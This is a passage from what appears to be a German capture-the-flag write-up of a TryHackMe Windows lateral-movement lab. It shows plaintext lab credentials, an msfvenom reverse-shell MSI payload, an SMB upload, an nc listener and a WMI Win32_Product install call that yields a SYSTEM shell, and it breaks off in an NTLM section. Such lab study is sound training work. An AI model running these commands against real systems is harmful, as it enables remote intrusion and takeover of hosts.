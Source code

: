 ```bash
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

Dann erstellen wir einen Payload auf unserem System den wir im Anschluß auf das Zielsystem hochladen:

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi

> smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994

Dann starten wir einen Listener auf Port 4445

>nc -lvnp 4445

Jetzt können wir die Install Methode der Win32_Product Klasse anstoßen um den Payload zu triggern:

> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

#### Wir haben eine Shell als NT Authority\System


# Use of Alternate Authentication Material

Mit Alternate Authentication Material meint man jedes Stück Daten das dazu genutzt werden kann, zugang zu einem Windows Account zu erhalten ohne das User Password zu kennen. Das ist aufgrund der Funktionsweise einiger Protokolle möglich, die Windows Netzwerke nutzen. In diesem Kapitel schauen wir uns an, was möglich ist, wenn folgende Protokolle genutzt werden:

- NTLM Authentication
- Kerberos Authentication

### NTLM Authentication

Wir funktioniert eigentlich NTLM?
